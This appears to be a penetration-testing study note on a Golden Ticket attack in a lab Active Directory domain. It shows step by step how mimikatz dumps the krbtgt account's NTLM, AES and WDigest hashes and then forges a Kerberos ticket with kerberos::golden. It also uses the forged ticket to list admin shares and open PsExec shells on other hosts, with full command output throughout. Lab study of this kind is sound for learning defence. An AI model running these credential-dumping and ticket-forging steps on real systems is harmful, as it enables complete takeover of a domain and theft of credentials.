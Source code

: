 #SID #krbtgt #mimikatz #psexec  

Once we have the SID and krbtgt hash, we can generate a ticket  
# What is it?

- When we compromise the krbtgt account, we own the domain
- We can request access to any resource or system on the domain  
- Golden tickets == complete access to every machine

We can utilize Mimikatz to obtain the information necessary to perform this attack

`mimikatz.exe`

`privilege::debug`​

`lsadump::lsa /inject /name:krbtgt`​

- dumps the information for the krbtgt account
- need:
	- krbtgt ntlm hash
	- domain SID  
`Start-Process -FilePath "C:\Users\administrator\Downloads\mimikatz.exe" -Verb RunAs`

Results:
```
C:\Users\Administrator\Downloads>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : MARVEL / S-1-5-21-3809429150-595446586-675097592

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 60163dd27f6c523edea3d171b2687db4
    LM   :
  Hash NTLM: 60163dd27f6c523edea3d171b2687db4
    ntlm- 0: 60163dd27f6c523edea3d171b2687db4
    lm  - 0: d315786f2f638a2e2c982770db7ea983

 * WDigest
    01  6b3668ccfc3c1d765603cf763cacb54a
    02  4cf7548763b61e728a8623a1f56d9b9b
    03  f22deb1da72e103d65ca15d76d3d8a90
    04  6b3668ccfc3c1d765603cf763cacb54a
    05  4cf7548763b61e728a8623a1f56d9b9b
    06  a2c6cc4a2a336f39994c316c27888da9
    07  6b3668ccfc3c1d765603cf763cacb54a
    08  82dd34d799a60d5c23e77d9495bef622
    09  b74cebf217f1497daab39baeed14377f
    10  070b118912dcdea684c702df2aba5c4c
    11  0e8c8a46947a5e40b772dbfb27efbff8
    12  b74cebf217f1497daab39baeed14377f
    13  917191fb7394c19fd6f353cd2cc59415
    14  0e8c8a46947a5e40b772dbfb27efbff8
    15  822ba92fff48689533633f002553f9df
    16  7e0b4051e149308d32be5b37391ac0c0
    17  707f1b31554829ace41fc22a641ee103
    18  f1c8438ccc91ba9c5b680e4e6d31a93a
    19  c10c26ebfc309987e143016e8c385dfd
    20  aaddf72b4a0a329bc236b9999f020b55
    21  2b55aad6f97b08c414e3b9f87c912f95
    22  2b55aad6f97b08c414e3b9f87c912f95
    23  bae97097016b2d97a995aa8372eddb3a
    24  8df01a1c50c1975ac9af45f0a6e05d4f
    25  0904c15efad7b5815e91dfb4712610fa
    26  b5f40647fb597b91cd5562a90e219f24
    27  cd59636c9b469005a368fa2eab515c69
    28  6d75014e3c903a77eb7553596b07e4c7
    29  c395aac429e46c78175d4820ab962143

 * Kerberos
    Default Salt : MARVEL.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 4546cb2f1c13c754

 * Kerberos-Newer-Keys
    Default Salt : MARVEL.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 981ff0f170cdae1af3126454e6be4992a97ab314de13310f0328a09067aac089
      aes128_hmac       (4096) : cb381cd42cd961408bce258de2880686
      des_cbc_md5       (4096) : 4546cb2f1c13c754

 * NTLM-Strong-NTOWF
    Random Value : 50e5c535ed079c714856f6f480984d70
```


Once we have the SID and krbtgt hash, we can generate a ticket (in mimikatz)  

`kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-3809429150-595446586-675097592 /krbtgt:60163dd27f6c523edea3d171b2687db4 /id:500 /ptt`​

- /User can be a fake user, /domain must be real  

Result:
```
mimikatz # kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-3809429150-595446586-675097592 /krbtgt:60163dd27f6c523edea3d171b2687db4 /id:500 /ptt
User      : Administrator
Domain    : marvel.local (MARVEL)
SID       : S-1-5-21-3809429150-595446586-675097592
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 60163dd27f6c523edea3d171b2687db4 - rc4_hmac_nt
Lifetime  : 7/6/2024 10:12:07 AM ; 7/4/2034 10:12:07 AM ; 7/4/2034 10:12:07 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ marvel.local' successfully submitted for current session
```


`misc::cmd`​

With a Golden Ticket, we can now access other machines from the cmd line

`dir \\10.0.0.25\C$   `
`dir \\THEPUNISHER\c$`

Results:
```
C:\Users\Administrator\Downloads>whoami
marvel\administrator

C:\Users\Administrator\Downloads>dir \\THEPUNISHER\c$
 Volume in drive \\THEPUNISHER\c$ has no label.
 Volume Serial Number is C810-5545

 Directory of \\THEPUNISHER\c$

07/03/2024  11:52 AM             1,191 @test.lnk
12/07/2019  02:14 AM    <DIR>          PerfLogs
06/28/2024  04:15 PM    <DIR>          Program Files
09/07/2022  08:16 PM    <DIR>          Program Files (x86)
06/26/2024  11:01 AM    <DIR>          Users
07/03/2024  12:10 PM    <DIR>          Windows
               1 File(s)          1,191 bytes
               5 Dir(s)  32,323,223,552 bytes free

C:\Users\Administrator\Downloads>dir \\SPIDERMAN\c$
 Volume in drive \\SPIDERMAN\c$ has no label.
 Volume Serial Number is 0815-C3C4

 Directory of \\SPIDERMAN\c$

12/07/2019  02:14 AM    <DIR>          PerfLogs
06/28/2024  04:10 PM    <DIR>          Program Files
09/07/2022  08:16 PM    <DIR>          Program Files (x86)
06/26/2024  10:35 AM    <DIR>          Users
06/29/2024  08:50 AM    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  39,861,657,600 bytes free
```
​​​
`Exec64.exe \\10.0.0.25 cmd.exe`​
`psexec.exe \\THEPUNISHER cmd.exe`
- (psexec.exe is a Windows tool.run it in the Golden Ticket session against another domain user/account to get a shell)
`whoami`​
`hostname`​

Results:
```
C:\Users\Administrator\Downloads>PsExec.exe \\THEPUNISHER cmd.exe

PsExec v2.43 - Execute processes remotely
Copyright (C) 2001-2023 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
marvel\administrator

C:\Windows\system32>hostname
THEPUNISHER
```


Golden Ticket is persistence. Silver Ticket is stealthier than Golden Ticket.  

